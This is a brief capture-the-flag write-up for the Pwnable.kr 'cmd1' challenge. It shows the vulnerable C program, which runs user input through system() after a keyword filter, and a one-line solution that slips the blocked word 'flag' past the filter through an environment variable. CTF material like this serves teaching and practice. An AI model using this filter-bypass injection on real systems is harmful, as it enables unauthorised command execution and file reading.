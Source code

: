 # Pwnable.kr CMD1
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)

# cmd1.c
```c
cmd1@ubuntu:~$ cat cmd1.c 
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/fuckyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```
# Export the flag variable

```sh
cmd1@ubuntu:~$ export f=flag && ./cmd1 '/bin/cat /home/cmd1/${f}'
mommy now I get what PATH environment is for :)
```